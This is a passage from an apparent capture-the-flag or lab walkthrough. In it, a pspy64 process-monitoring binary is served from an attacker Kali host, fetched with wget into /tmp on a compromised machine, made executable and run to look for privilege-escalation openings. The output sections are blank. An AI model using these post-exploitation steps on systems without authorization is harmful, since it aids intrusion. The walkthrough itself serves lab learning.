


4.6 pspy64
Download “pspy64” from https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64 to your Kali Machine.
1. From your connection SSH get the “pspy64” file.
mum@family:/$ cd /tmp
mum@family:/tmp$ wget http://192.168.12.60:8999/pspy64
Output:

2. Give execution permisions to “pspy64”.
mum@family:/tmp$ chmod +x pspy64
3. Run “pspy32”.
mum@family:/tmp$ ./pspy64
Output:
